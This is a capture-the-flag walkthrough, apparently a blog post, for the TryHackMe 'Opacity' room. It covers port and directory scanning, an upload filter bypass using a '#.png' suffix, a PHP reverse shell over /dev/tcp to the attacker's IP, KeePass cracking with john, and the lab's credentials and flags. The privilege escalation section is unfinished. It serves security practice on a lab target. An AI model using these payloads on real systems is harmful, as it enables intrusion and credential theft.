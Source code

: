 ```yaml
---
title: THM - Walkthrough - Opacity [Easy]
date: 2024-07-28 00:00:00 +/-TTTT
categories: [Walkthrough]
tags: [ctf, thm, easy]     # TAG names should always be lowercase
---
```


<img src="https://tryhackme-images.s3.amazonaws.com/room-icons/328c078f7c5695439a46ba90ae48aaa0.png" alt="Opacity Room Icon" width="200" height="200" />

Welcome to my writeups for the TryHackMe room Opacity. That's an easy room that will help you 
practice your web exploitation and linux exploitations skills.
The room is available [here](https://tryhackme.com/room/opacity).

## Information Gathering

### Port Scanning

We start by using `nmap` to scan the target machine for open ports and services.

```
$ nmap -sV 10.10.86.31
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-07-28 12:38 EDT
Nmap scan report for 10.10.86.31
Host is up (0.22s latency).
Not shown: 996 closed tcp ports (conn-refused)
PORT    STATE SERVICE     VERSION
22/tcp  open  ssh         OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
80/tcp  open  http        Apache httpd 2.4.41 ((Ubuntu))
139/tcp open  netbios-ssn Samba smbd 4.6.2
445/tcp open  netbios-ssn Samba smbd 4.6.2
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 39.07 seconds
```

We see that the target machine has the following services running:
- `SSH` on port 22
- `HTTP` on port 80
- `SMB` on ports 139 and 445

### Website Enumeration

Visiting the website at `http://10.10.86.31` we are redirected on `http://10.10.86.31/login.php` which is a login page.

![Login Page](assets/img/posts/walkthroughs/opacity/20240728_opacity_login_page.png)

#### Directory Enumeration

We use `gobuster` to find hidden directories on the website.

```
$ gobuster dir -u http://10.10.86.31/ -w /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt -o gobuster_dir_output.txt
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://10.10.86.31/
[+] Method:                  GET
[+] Threads:                 10
[+] Wordlist:                /usr/share/wordlists/dirbuster/directory-list-2.3-small.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/css                  (Status: 301) [Size: 308] [--> http://10.10.86.31/css/]
/cloud                (Status: 301) [Size: 310] [--> http://10.10.86.31/cloud/]
...
```

We find a directory `/cloud` containing a index page.

![Cloud Directory](assets/img/posts/walkthroughs/opacity/20240728_opacity_cloud.png)

## Exploitation

### File Upload

We seems to have a file upload form on the page. We try to upload a PHP file by creating a simple HTTP server with Python (`$ python -m http.server 1234`) and a simple PHP file.

```php
<?php
phpinfo();
?>
```

Then we provide the URL of the PHP file to the upload form.

`http://10.2.34.126:1234/payload.php`

Unfortunately, the upload is blocked by the server. The server is checking the file extension and only allows images file extensions.

![Upload Blocked](assets/img/posts/walkthroughs/opacity/20240728_opacity_fail_upload.png)

We can bypass this by using a PHP file with a valid image extension and bypassing the filter with a `#`.
The server will only check the extension after the `#` and not interpret it when making the GET request on our server. 

`payload.php#.png`

We provide the new URL to the upload form.

`http://10.2.34.126:1234/payload.php#.png`

![Upload Success](assets/img/posts/walkthroughs/opacity/20240728_opacity_successful_upload.png)

The upload is successful and we can then access the file at `http://10.10.86.31/cloud/images/payload.php`.

![phpinfo Injection](assets/img/posts/walkthroughs/opacity/20240728_opacity_phpinfo.png)

As we can see, the php file is executed and we can now inject PHP code.
(It is possible the server remove the file before you try to access it, you can try to upload it again)

### Reverse Shell

We can now inject a reverse shell in the PHP file after setting up a listener on our machine.

```php
<?php
echo shell_exec("bash -c 'exec bash -i &>/dev/tcp/10.2.34.126/1235 <&1'");
?>
```

Following the same process as before, we upload the file with the `.png` extension and access it at `http://10.10.86.31/cloud/images/payload.php`.

And now we have a reverse shell on the target machine.

![Whoami](assets/img/posts/walkthroughs/opacity/20240728_opacity_whoami.png)

### Local Enumeration **TODO**


In the web server directory (`/var/www/html/`), we find a file `login.php` containing the following code.

```php
<?php session_start(); /* Starts the session */

        /* Check Login form submitted */
        if(isset($_POST['Submit'])){
                /* Define username and associated password array */
                $logins = array('admin' => 'oncloud9','root' => 'oncloud9','administrator' => 'oncloud9');

                ...
        }
?>
```

We can see that the login form is checking for the username `admin`, `root` or `administrator` with the password `oncloud9`.

We can also find a `dataset.kdbx` file in the `/opt` directory.

`.kdbx` files are Keepass password manager databases. We can try to crack the password of the database to get more credentials.

### Keepass Crack

We download the `dataset.kdbx` file to our machine and use `keepass2john` to extract the hash.

With the hash, we can use `john` to crack the password of the database.

![Keepass Database](assets/img/posts/walkthroughs/opacity/20240728_opacity_keepass_crack.png)

The crack is successful with the default password list and we get the password `741852963`.

With the password, we can open the database with `keepassxc` and find the credentials for the user `sysadmin`.

![Keepassxc](assets/img/posts/walkthroughs/opacity/20240728_opacity_keepassxc.png)

We can now log in as `sysadmin` with the password `Cl0udP4ss40p4city#8700` and get the user flag located in the home directory.

![Whoami sysadmin](assets/img/posts/walkthroughs/opacity/20240728_opacity_whoami_sysadmin.png)

![Local flag](assets/img/posts/walkthroughs/opacity/20240728_opacity_local_flag.png)

`6661b61b44d234d230d06bf5b3c075e2`

## Post Exploitation

### Privilege Escalation

**TODO**

![Root flag](assets/img/posts/walkthroughs/opacity/20240728_opacity_root_flag.png)

`ac0d56f93202dd57dcb2498c739fd20e`